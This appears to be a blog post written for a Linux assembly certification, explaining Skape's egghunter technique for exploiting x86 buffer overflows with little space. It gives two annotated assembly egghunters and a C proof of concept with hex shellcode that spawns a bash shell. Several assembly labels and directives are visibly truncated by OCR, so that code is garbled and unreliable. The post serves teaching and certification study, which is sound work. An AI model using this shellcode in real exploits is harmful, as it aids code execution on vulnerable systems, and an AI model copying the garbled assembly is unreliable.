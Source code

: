 ```yaml
---
layout: post
title: " Skape's Egg Hunter (null-free/Linux x86) "
date: 2017-05-02 12:00:00
share: true
comments: true
tags: [Exploit Development, Shellcoding, SLAE, OSCE Prep]
---
```


_This blog post has been created for completing the requirements of the [SecurityTube Linux Assembly Expert certification](http://securitytube-training.com/online-courses/securitytube-linux-assembly-expert/)._
_**Student ID:** SLAE-885_
_**Assignment number:** 3_
_**Github repo:** <https://github.com/abatchy17/SLAE>_  

---
 
_Note: Pretty much the entire post is extracted from Skape's paper, it's extremely well-written and is a must read._  


## What is an egghunter?

  
Assume you found a buffer overflow vulnerability with a very small space that you control that is less than that of a bind/reverse shell, how can you utilize this space? The following concept is discussed in depth by Skape in [Safely Searching Process Virtual Address Space](http://www.hick.org/code/skape/papers/egghunt-shellcode.pdf) where the actual payload is marked by an "egg" (usually 4-8 bytes that are very unlikely to be found in memory) and the small controllable space contains an "egghunter" which will search for that egg in the virtual address space.  
  
Skape discussed 3 different implementations for Linux, I implemented both `access(2)` and `access(2) revised`.  
  

## What are the requirements of an egg hunter?

* **Small size**: Since the main reason an egg hunter is needed is that we're tight on space, the smaller the shellcode is, the better. This is achieved by writing a very optimized shellcode.  

* **Robustness**: It should be able to scan the entire virtual space fast without failing on unallocated memory. This is achieved through multiple methods on Linux, discussed below.  
  
* If you directly try to read an unallocated memory in Linux, program will throw a SIGSEGV and crash. Instead, Skape recommended an out of the box suggestion, which is abusing the `access()` syscall.  
  
```cpp
int access(const char *pathname, int mode);  
```

Passing an address instead of pathname will check if the memory is allocated, if not it won't throw a `SIGSEGV`, allowing us to scan the memory safely.  
  
One more thing is that we need to make sure that the egg hunter won't ultimately point at itself, that's why the code will check the presence of the egg twice in a row before concluding that this is our payload.  

---

## How does the egg hunter work?

#### Method 1: access(2)  
  
```nasm
; Skape's egghunter: access(2)

al _start:  

ion .text  

rt:  
mov ebx, 0x50905090     ; Store EGG in ebx  
xor ecx, ecx            ; Zero out ECX  
mul ecx                 ; Zero out EAX and EDX  
age:                    ; JMP to increment page number  
or dx, 0xfff            ; Align page address  
ddr:                    ; JMP to increment address  
inc edx                 ; Go to next address  
pushad                  ; Push general registers onto stack  
lea ebx, [edx+4]        ; [edx+4] so we can compare [edx] and [edx+4] at the same time  
mov al, 0x21            ; syscall for access()  
int 0x80                ; call access() to check memory location [EBX]  
cmp al, 0xf2            ; Did it return EFAULT?  
popad                   ; Restore registers  
jz IncPage              ; access() returned EFAULT, skip page  
cmp [edx], ebx          ; initialized memory, check if EGG is in [edx]  
jnz IncAddr             ; EGG isn't in [edx], visit next address  
cmp [edx+4], ebx        ; EGG is found in [edx], is it in [edx+4] too?  
jne IncAddr             ; Boohoo! It wasn't. Visit next address  
jmp edx                 ; [edx][edx+4] contain EGGEGG, we found our shellcode! Execute meaningless EGGEGG instructions then our payload  
```    

  
#### Method 2: access(2) revised  
 
```nasm
; Skape's egghunter: access(2) revised  


al _start  

ion .text  

rt:  
xor edx, edx            ; EDX = 0  
age:  
or dx, 0xfff            ; Align page address  
ddr:  
inc edx                 ; Go to next address  
lea ebx, [edx+0x4]      ; [edx+4] so we can compare [edx] and [edx+4] at the same time  
push byte 0x21          ; syscall for access()  
pop eax  
int 0x80                ; call access() to check memory location [EBX]  
cmp al, 0xf2            ; Did it return EFAULT?  
jz IncPage              ; It did, skip page  
mov eax, 0x50905090     ; Store EGG in EAX  
mov edi, edx            ; Move EDX to EDI for scasd operation  
scasd                   ; Check if [EDI] == EAX then increment EDI  
jnz IncAddr             ; It isn't, increment address  
scasd                   ; Check if [EDI] == EAX then increment EDI  
jnz IncAddr             ; It isn't, increment address  
jmp edi                 ; We found our Egg! JMP to EDI, which points directly to our shellcode  
```

---

## Proof of concept

```cpp
/*  
 egghunter.c  
 By Abatchy  
 gcc egghunter.c -fno-stack-protector -z execstack -o shellcode.out  
*/  
  
#include <stdio.h>  
#include <string.h>  
  
#define EGG "\x90\x50\x90\x50"  
  
// Spawns a bash shell  
unsigned char secret[] = EGG EGG  
"\x31\xc0\x50\x68\x62\x61\x73\x68\x68\x62\x69\x6e\x2f\x68\x2f\x2f\x2f\x2f\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80";  
  
// Skape's egghunter: access(2)  
unsigned char egghunter1[] =   
"\xbb"  
EGG  
"\x31\xc9"  
"\xf7\xe1"  
"\x66\x81\xca\xff\x0f"  
"\x42"  
"\x60"  
"\x8d\x5a\x04"  
"\xb0\x21"  
"\xcd\x80"  
"\x3c\xf2"  
"\x61"  
"\x74\xed"  
"\x39\x1a"  
"\x75\xee"  
"\x39\x5a\x04"  
"\x75\xe9"  
"\xff\xe2";  
  
// Skape's egghunter: access(2) revised  
unsigned char egghunter2[] =   
"\x31\xd2"  
"\x66\x81\xca\xff\x0f"  
"\x42"  
"\x8d\x5a\x04"  
"\x6a\x21"  
"\x58"  
"\xcd\x80"  
"\x3c\xf2"  
"\x74\xee"  
"\xb8" EGG  
"\x89\xd7"  
"\xaf"  
"\x75\xe9"  
"\xaf"  
"\x75\xe6"  
"\xff\xe7";  
  
int main()  
{  
    printf("Egg is at %p\n", secret);  
    printf("Egghunter size: %d\n", strlen(egghunter1));  
    int (*ret)() = (int(*)())egghunter1;  
    ret();  
}  
```

  
Successfully running this code will search for the `EGG` in the memory and execute the payload, throwing a bash shell. Using `strace ./program` is a nice way to check if it's searching memory properly, or attaching GDB.  
  
\- Abatchy
